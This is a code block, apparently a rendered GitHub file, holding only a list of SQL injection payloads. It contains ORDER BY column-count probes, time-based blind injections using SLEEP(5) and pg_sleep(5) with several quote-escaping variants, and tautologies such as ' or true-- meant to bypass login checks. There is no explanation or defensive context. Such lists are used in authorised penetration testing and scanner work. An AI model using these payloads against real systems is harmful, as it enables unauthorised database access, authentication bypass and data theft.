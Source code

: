 ```
ORDER BY 3 
ORDER BY 3# 
ORDER BY 3-- 
ORDER BY 30 
ORDER BY 30#
ORDER BY 30-- 
ORDER BY 31337 
ORDER BY 31337#
ORDER BY 31337-- 
ORDER BY 4 
ORDER BY 4# 
ORDER BY 4-- 
ORDER BY 5 
ORDER BY 5# 
ORDER BY 5-- 
ORDER BY 6 
ORDER BY 6# 
ORDER BY 6-- 
ORDER BY 7 
ORDER BY 7# 
ORDER BY 7-- 
ORDER BY 8 
ORDER BY 8# 
ORDER BY 8-- 
ORDER BY 9 
ORDER BY 9# 
ORDER BY 9-- 
ORDER BY SLEEP(5)#
ORDER BY SLEEP(5)-- 
ORDER BY SLEEP(5)#
ORDER BY SLEEP(5)--
' or 'one'='one
' or 'one'='one–
" or pg_sleep(5)--
") or pg_sleep(5)--
")) or pg_sleep(5)--
' or pg_sleep(5)--
') or pg_sleep(5)--
')) or pg_sleep(5)--
or pg_SLEEP(5)
or pg_SLEEP(5)#
or pg_SLEEP(5)--
" or sleep(5)#
" or sleep(5)="
") or sleep(5)="
")) or sleep(5)="
' or sleep(5)#
' or sleep(5)='
') or sleep(5)='
')) or sleep(5)='
or SLEEP(5)
or SLEEP(5)#
or SLEEP(5)--
or SLEEP(5)="
or SLEEP(5)='
or true
" or true--
") or true--
' or true--
') or true--
or true--
' or uid like '%
' or uname like '%
```